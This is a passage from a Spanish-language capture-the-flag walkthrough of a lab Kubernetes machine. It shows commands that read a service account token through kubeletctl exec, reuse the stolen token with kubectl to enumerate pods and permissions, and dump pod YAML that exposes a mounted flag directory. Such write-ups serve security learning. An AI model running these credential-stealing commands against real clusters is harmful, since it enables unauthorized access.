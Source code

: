 ```js
-s: Asignación de la IP del servidor.
exec: Ejecución de comandos dentro del servidor.
-p: Nombre del proceso (POD).
-c: Nombre del contenedor.
tee ca.crt: Guarda el archivo solicitado en la ruta actual de trabajo.
```

Ahora para poder usar **Kubectl** y así ganar acceso al sistema, se procede a guardar el token en una variable temporal para así poder hacer acciones en el sistema sin necesidad de contraseña.

```js
export token=$(kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)
```

Se guarda en una variable temporal **token** y se ejecuta el siguiente comando.

```js
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod
NAME    READY   STATUS    RESTARTS   AGE
nginx   1/1     Running   0          145m
```

Se observa que esta corriendo el POD **nginx** que fue encontrado en las fases iniciales.

Como ahora se puede obtener información completa del sistema, hay un comando **auth can-i** que nos brinda información sobre las acciones que puede tomar la cuenta.

```js
kubectl auth can-i --list --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
pods                                            []                                    []               [get create list]
```

Del resultado obtenido vemos que la mas importante es el pods, ya que el usuario puede obtener, crear y lista en el sistema.
Buscando un poco en el sistema, se puede observar que hay archivo yaml, que lo que hace es ejecutar y mostra información de los pods.

```js
kubectl get pod nginx -o yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token

apiVersion: v1                                                                                                                                                                               
kind: Pod                                                                                                                                                                                    
metadata:                                                                                                                                                                                    
  annotations:                                                                                                                                                                               
    kubectl.kubernetes.io/last-applied-configuration: |                                                                                                                                      
      {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"name":"nginx","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","imagePullPolicy":"Never","name":"ngin
x","volumeMounts":[{"mountPath":"/root","name":"flag"}]}],"volumes":[{"hostPath":{"path":"/opt/flag"},"name":"flag"}]}}                                                                      
  creationTimestamp: "2022-02-17T02:40:02Z"                                                                                                                                                  
  name: nginx                                                                                                                                                                                
```